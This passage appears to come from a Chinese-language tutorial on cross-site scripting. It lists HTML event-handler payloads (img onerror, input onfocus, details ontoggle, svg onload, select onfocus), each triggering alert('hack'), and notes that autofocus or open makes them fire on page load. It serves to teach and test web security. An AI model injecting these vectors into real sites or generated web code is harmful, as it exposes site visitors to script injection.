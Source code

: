 2. `<img src=1 onerror=alert('hack');>`

3. `<input onfocus="alert('hack');">`

当用户点击输入框会弹窗

`<input onfocus="alert('hack');" autofocus>`

添加`autofocus`可以使用户访问时自动触发。

4. `<details ontoggle="alert('hack');">`

当用户点击`details`可以触发弹窗。

![poc2](./xss_fig/poc2.png)

`<details open ontoggle="alert('hack');">`

添加`open`可以在用户访问时自动触发。

5. `<svg onload=alert('hack');>`

6. `<select onfocus=alert('hack')></select>`

`<select onfocus=alert('hack') autofocus></select>`
